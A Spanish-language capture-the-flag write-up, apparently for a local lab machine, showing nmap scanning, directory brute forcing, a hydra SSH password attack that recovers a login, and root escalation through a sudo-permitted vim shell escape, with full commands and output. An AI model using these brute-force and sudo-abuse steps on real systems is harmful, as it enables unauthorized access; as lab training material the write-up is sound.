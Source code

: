 #hydra #password-brute-force #gtfobins #directory-brute-force #abusing-sudo #vim

![](../../../Images/Pasted%20image%2020241008071834.png)
# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio **SSH** i un servicio **HTTP** funcionando.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 16:49 CEST
Nmap scan report for 172.18.0.2
Host is up (0.000021s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:12:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 16:49 CEST
Nmap scan report for 172.18.0.2
Host is up (0.000042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:12:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.90 seconds
```

## Website (80 TCP Port)

En el sitio web no vemos nada interesante pero si hacenmos un ataque de fuerza bruta de directorios nos encontramos con una que nos revela un nombre de usuario.

```
feroxbuster -u http://172.18.0.2 -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.18.0.2
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      272c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       24l      127w    10359c http://172.18.0.2/icons/openlogo-75.png
200      GET      368l      933w    10701c http://172.18.0.2/
200      GET       39l       78w      927c http://172.18.0.2/secret.php
[####################] - 5s     30005/30005   0s      found:3       errors:0
[####################] - 5s     30000/30000   5738/s  http://172.18.0.2/                      
```

![](../../../Images/Pasted%20image%2020241008173556.png)

# Usuario Mario

Con el nombre usuario logramos conseguir una contraseña realizando un ataque de fuerza bruta de contraseñas que nos permite acceder en el sistema objetivo como el usuario **Mario**.

```
> hydra -l mario -P /usr/share/wordlists/rockyou.txt 172.18.0.2 ssh

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-08 17:00:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.18.0.2:22/
[22][ssh] host: 172.18.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-08 17:00:35
```

```
> ssh mario@172.18.0.2

The authenticity of host '172.18.0.2 (172.18.0.2)' can't be established.
ED25519 key fingerprint is SHA256:z6uc1wEgwh6GGiDrEIM8ABQT1LGC4CfYAYnV4GXRUVE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.18.0.2' (ED25519) to the list of known hosts.
mario@172.18.0.2's password:
Linux 91a9d6272033 6.10.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.10.9-1kali1 (2024-09-09) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21
mario@91a9d6272033:~$ whoami
mario
```

# Escalada de privilegios

Una vez dentro investigamos los comandos que podemos ejecutar con permisos `sudo` y vemos que podemos ejecutar el binario **vim**.

```
mario@91a9d6272033:~$ sudo -l
[sudo] password for mario:
Matching Defaults entries for mario on 91a9d6272033:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 91a9d6272033:
    (ALL) /usr/bin/vim
```

Si investigamos en la página web de [GTFOBINS](https://gtfobins.github.io/) vemos como podemos conseguir una shell con permisos sudo.

![](../../../Images/Pasted%20image%2020241008162323.png)

```
mario@91a9d6272033:~$ sudo /usr/bin/vim -c ':!/bin/sh'

# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
#
```